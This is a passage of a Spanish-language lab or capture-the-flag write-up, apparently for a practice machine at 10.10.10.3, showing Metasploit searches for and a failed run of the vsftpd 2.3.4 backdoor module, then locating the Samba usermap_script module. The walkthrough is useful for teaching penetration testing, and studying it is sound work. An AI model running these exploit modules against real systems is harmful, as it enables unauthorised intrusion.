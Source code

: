 Ahora se realiza un `ls -la` y luego el comando `cat .listing` para ver qué hay:
![[Pasted image 20240712130505.png]]

Como se observa en la imagen anterior, no hay nada importante.

### 5. Búsqueda de Vulnerabilidades con Metasploit
Se inicia `msfconsole` y se busca la vulnerabilidad del `vsftpd`:
```shell
msfconsole
msf6 > search vsftpd 2.3.4
```
![[Pasted image 20240713002051.png]]

**Módulo encontrado:**
```
exploit/unix/ftp/vsftpd_234_backdoor
```

### 6. Configuración y Ejecución del Módulo de Explotación
Se configura el módulo para apuntar a la IP objetivo y se ejecuta:
```shell
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 10.10.10.3
run
```
![[Pasted image 20240713002605.png]]

```shell
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3       
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)           
[*] 10.10.10.3:21 - USER: 331 Please specify the password.                                                
[*] Exploit completed, but no session was created.       
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >                         
```

Como vemos, no se pudo, ya que tiene el firewall activado:
![[Pasted image 20240713002933.png]]

### 7. Explotación de Samba
Se busca una vulnerabilidad en el servicio Samba encontrado:
```shell
search samba 3.0.20
```
![[Pasted image 20240713003445.png]]

**Módulo encontrado:**
```
exploit/multi/samba/usermap_script
```
